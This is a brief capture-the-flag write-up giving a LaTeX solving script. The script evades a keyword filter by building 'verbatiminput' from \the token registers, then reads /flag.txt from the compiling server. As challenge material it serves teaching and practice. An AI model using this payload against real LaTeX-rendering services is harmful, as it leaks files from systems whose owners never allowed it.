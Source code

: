 # Latex
In this challenge, you can use "\the" to store a string and use "\begin" and "\end" to build an expression using the string you stored with "\the". Here's the solving script in LaTeX:

```latex
\documentclass{article}
\RequirePackage{verbatim}
\begin{document}
\newtoks\in
\newtoks\put
\in={in}
\put={put}
\begin{verbatim\the\in\the\put}{/flag.txt}\end{verbatim\the\in\the\put}
\end{document}
```
